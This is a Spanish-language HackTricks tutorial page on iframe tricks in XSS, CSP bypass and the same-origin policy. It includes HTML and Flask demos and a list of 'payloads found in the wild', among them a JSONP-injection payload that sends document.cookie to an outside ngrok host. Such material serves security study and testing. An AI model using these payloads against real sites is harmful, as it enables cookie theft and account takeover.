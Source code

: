 # Iframes en XSS, CSP y SOP

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión del PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs al [repositorio de hacktricks](https://github.com/carlospolop/hacktricks) y al [repositorio de hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Iframes en XSS

Hay 3 formas de indicar el contenido de una página en un iframe:

* A través de `src` indicando una URL (la URL puede ser de origen cruzado o del mismo origen)
* A través de `src` indicando el contenido usando el protocolo `data:`
* A través de `srcdoc` indicando el contenido

**Accediendo a variables del padre e hijo**
```html
<html>
<script>
var secret = "31337s3cr37t";
</script>

<iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if2" src="child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

<script>
function access_children_vars(){
alert(if1.secret);
alert(if2.secret);
alert(if3.secret);
alert(if4.secret);
}
setTimeout(access_children_vars, 3000);
</script>
</html>
```

```html
<!-- content of child.html -->
<script>
var secret="child secret";
alert(parent.secret)
</script>
```
Si accedes al html anterior a través de un servidor http (como `python3 -m http.server`), notarás que todos los scripts se ejecutarán (ya que no hay CSP que lo prevenga). **El padre no podrá acceder a la variable `secret` dentro de ningún iframe** y **solo los iframes if2 e if3 (que se consideran del mismo sitio) pueden acceder al secreto** en la ventana original.\
Observa cómo se considera que if4 tiene un origen `null`.

### Iframes con CSP <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Por favor, ten en cuenta que en los siguientes bypasses la respuesta a la página con iframe no contiene ninguna cabecera CSP que prevenga la ejecución de JS.
{% endhint %}

El valor `self` de `script-src` no permitirá la ejecución del código JS utilizando el protocolo `data:` o el atributo `srcdoc`.\
Sin embargo, incluso el valor `none` del CSP permitirá la ejecución de los iframes que colocan una URL (completa o solo la ruta) en el atributo `src`.\
Por lo tanto, es posible evadir el CSP de una página con:
```html
<html>
<head>
<meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
<script>
var secret = "31337s3cr37t";
</script>
<iframe id="if1" src="child.html"></iframe>
<iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```
Ten en cuenta cómo la **CSP anterior solo permite la ejecución del script en línea**.\
Sin embargo, **solo los scripts `if1` e `if2` se ejecutarán pero solo `if1` podrá acceder al secreto principal**.

![](<../../.gitbook/assets/image (627) (1) (1).png>)

Por lo tanto, es posible **burlar una CSP si puedes cargar un archivo JS en el servidor y cargarlo a través de un iframe incluso con `script-src 'none'`**. Esto también **potencialmente se puede hacer abusando de un punto final JSONP del mismo sitio**.

Puedes probar esto con el siguiente escenario donde se roba una cookie incluso con `script-src 'none'`. Simplemente ejecuta la aplicación y accede a ella con tu navegador:
```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
resp.headers['Content-Security-Policy'] = "script-src 'self'"
resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
return resp

@app.route("/cookie_s.html")
def cookie_s():
return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
app.run()
```
### Otros payloads encontrados en la naturaleza <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>
```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```
### Iframe sandbox

El contenido dentro de un iframe puede estar sujeto a restricciones adicionales mediante el uso del atributo `sandbox`. Por defecto, este atributo no se aplica, lo que significa que no hay restricciones en su lugar.

Cuando se utiliza, el atributo `sandbox` impone varias limitaciones:

- El contenido se trata como si proviniera de una fuente única.
- Se bloquea cualquier intento de enviar formularios.
- Se prohíbe la ejecución de scripts.
- Se deshabilita el acceso a ciertas APIs.
- Evita que los enlaces interactúen con otros contextos de navegación.
- No se permite el uso de complementos a través de etiquetas `<embed>`, `<object>`, `<applet>`, u otras similares.
- Se evita la navegación del contexto de navegación de nivel superior del contenido por parte del propio contenido.
- Se bloquean las funciones que se activan automáticamente, como la reproducción de video o el enfoque automático de controles de formulario.

El valor del atributo puede dejarse vacío (`sandbox=""`) para aplicar todas las restricciones mencionadas anteriormente. Alternativamente, se puede establecer en una lista de valores específicos separados por espacios que eximen al iframe de ciertas restricciones.
```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```
## Iframes en SOP

Verifique las siguientes páginas:

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres que tu **empresa sea anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión del PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs al [repositorio de hacktricks](https://github.com/carlospolop/hacktricks) y al [repositorio de hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
